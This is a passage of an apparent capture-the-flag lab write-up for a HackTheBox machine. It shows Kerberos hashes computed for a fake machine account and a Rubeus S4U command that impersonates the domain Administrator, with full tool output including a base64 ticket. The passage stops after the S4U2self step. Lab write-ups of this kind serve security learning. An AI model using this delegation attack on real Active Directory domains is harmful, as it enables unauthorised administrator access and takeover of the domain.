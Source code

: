 ```bash
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake-comp01.support.htb
[*]       rc4_hmac             : 58A478135A93AC3BF058A5EA0E8FDB71
[*]       aes128_cts_hmac_sha1 : 06C1EABAD3A21C24DF384247BC85C540
[*]       aes256_cts_hmac_sha1 : FF7BA224B544AA97002B2BEE94EADBA7855EF81A1E05B7EB33D4BCD55807FF53
[*]       des_cbc_md5          : 5B045E854358687C
```
* Step 6 S4U(Service For User) attack to impersonate the Administrato user using the fake machine account

```bash
../Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Using rc4_hmac hash: 58A478135A93AC3BF058A5EA0E8FDB71
[*] Building AS-REQ (w/ preauth) for: 'support.htb\FAKE-COMP01$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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


[*] Action: S4U

[*] Building S4U2self request for: 'FAKE-COMP01$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'FAKE-COMP01$@SUPPORT.HTB'
```